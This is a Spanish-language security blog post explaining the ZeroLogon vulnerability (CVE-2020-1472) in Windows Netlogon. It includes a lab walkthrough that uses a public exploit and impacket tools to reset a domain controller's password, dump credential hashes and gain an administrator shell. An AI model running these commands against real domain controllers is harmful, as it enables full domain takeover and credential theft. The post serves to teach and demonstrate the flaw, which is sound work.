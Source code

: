 ```yaml
---
layout: single
title: Explotación de CVE-2020-1472 - Vulnerabilidades
excerpt: "la vulnerabilidad crítica de elevación de privilegios 10/10 de Windows ZeroLogon Netlogon permite a los actores de amenazas obtener rápidamente acceso a las credenciales de administrador de dominio en un controlador de dominio. A partir de ahí, pueden recopilar datos confidenciales o implementar malware, como ransomware."
date: 2021-07-17
classes: wide
header:
  teaser: /assets/images/vulnerabilidades/cve-2020-1472/cve-2020-1472.png
  teaser_home_page: true
  icon: /assets/images/zerologon.webp
categories:
  - Vulnerabilidades
 
tags:  
  - cve-2020-1472
  - zerologon
  - active directory
  - windows
  
---
```


![](/assets/images/vulnerabilidades/cve-2020-1472/cve-2020-1472.png)

## Descripción:

En resumen, la CVE-2020-1472 es el resultado de un error en la estrategia de autentificación criptográfica del protocolo remoto de Netlogon. Este protocolo autentifica a los usuarios y los equipos en redes basadas en dominios y también se utiliza para actualizar las contraseñas del ordenador en remoto. Mediante la vulnerabilidad, un atacante puede hacerse pasar por un ordenador cliente y sustituir la contraseña de un controlador de dominio (un servidor que controla una red al completo y ejecuta los servicios del Directorio Activo), que le permite al atacante hacerse con los derechos de administrador del dominio.

•	Tipo: Gestión de privilegios incorrecta

•	Gravedad: Alta

•	Fecha publicación:17/08/2020 Última modificación: 23/11/2020

## ¿Qué es Netlogon?

Netlogon es un proceso de Windows Server que autentica a los usuarios y otros servicios dentro de un dominio. Dado que es un servicio y no una aplicación, Netlogon se ejecuta continuamente en segundo plano, a menos que se detenga manualmente o por un error en tiempo de ejecución. Netlogon se puede detener o reiniciar desde el terminal de línea de comandos.

## ¿Quién es vulnerable?

El CVE-2020-1472 supone un riesgo para las empresas cuyas redes están basadas en controladores de dominio que se ejecuten con Windows. En concreto, los ciberdelincuentes pueden secuestrar un controlador de dominio basado en cualquier versión de Windows Server 2019 o de Windows Server 2016, así como cualquier edición de Windows Server versión 1909, Windows Server versión 1903, Windows Server versión 1809 (ediciones Datacenter y Standard), Windows Server 2012 R2, Windows Server 2012 o Windows Server 2008 R2 Service Pack 1. Para atacar, primero necesitarían penetrar en la red corporativa.

## Productos Afectados:

•	Windows Server 2008 R2 x64 Service Pack 1 

•	Windows Server 2012

•	Windows Server 2012 R2 

•	Windows Server 2016

•	Windows Server 2019

•	Windows Server 1903 (Server Core), 1909 (Server Core), 2004 (Server Core)

•	Samba 4.0 o superior, sólo cuando es usado como Controlador de Dominio Active Directory o NT4 

## Explotación:

Para esta demostración usaremos como maquina atacante Kali Linux conectado a la red y el equipo víctima es un Windows server 2008 R2.

•	Ejecutamos en la terminal el comando python3 -m pip install virtualenv

![](/assets/images/vulnerabilidades/cve-2020-1472/cve-2020-14722.png)

Luego creamos una instancia con el comando.

•	python3 -m virtualenv practica1

![](/assets/images/vulnerabilidades/cve-2020-1472/cve-2020-14723.png)

Invocamos la instancia creada source practica1/bin/actívate.

![](/assets/images/vulnerabilidades/cve-2020-1472/cve-2020-14724.png)

Instalamos el paquete desde github con el comando.

•	pip install git+https://github.com/SecureAuthCorp/impacket

Luego descargamos el directorio con el exploit desde github.

•	git clone https://github.com/dirkjanm/CVE-2020-1472

![](/assets/images/vulnerabilidades/cve-2020-1472/cve-2020-14725.png)

Ingresamos al directorio descargado.

•	cd CVE-2020-1472

Ejecutamos desde el directorio el comando.

•	python cve-2020-1472-exploit.py NOMBRE EQUIPO VICTIMA IP VICTIMA

![](/assets/images/vulnerabilidades/cve-2020-1472/cve-2020-14726.png)

Ejecutamos el comando del paquete.

•	impacket-secretsdump NOMBRE DOMINIO VICTIMA/'NOMBRE EQUIPO VICTIMA$'@IP VICTIMA -no—pass

![](/assets/images/vulnerabilidades/cve-2020-1472/cve-2020-14727.png)

Finalmente ejecutamos el siguiente comando para obtener control del controlador de dominio como administrador.

•	impacket-wmiexec -hashes HASH ENCONTRADO USUARIO ENCONTRADO@IP VICTIMA

![](/assets/images/vulnerabilidades/cve-2020-1472/cve-2020-14728.png)


## Referencias:

•	https://github.com/SecureAuthCorp/impacket

•	https://github.com/dirkjanm/CVE-2020-1472

•	https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-1472
